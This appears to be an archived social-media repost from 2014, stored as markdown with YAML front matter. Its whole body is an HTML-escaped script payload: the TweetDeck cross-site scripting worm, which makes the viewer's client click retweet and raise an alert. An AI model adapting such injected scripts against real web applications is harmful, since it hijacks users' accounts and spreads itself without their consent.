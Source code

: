 ```yaml
---
date: 2014-06-11 18:12:31+00:00
dontinlinephotos: true
repost_source:
  name: derGeruhn
  type: twitter
  url: https://twitter.com/derGeruhn/statuses/476764918763749376/
source: twitter
syndicated:
- type: twitter
  url: https://twitter.com/roytang/statuses/476789085516750848/
title: ''
---
```


&lt;script class="xss"&gt;$('.xss').parents().eq(1).find('a').eq(1).click();$('[data-action=retweet]').click();alert('XSS in Tweetdeck')&lt;/script&gt;♥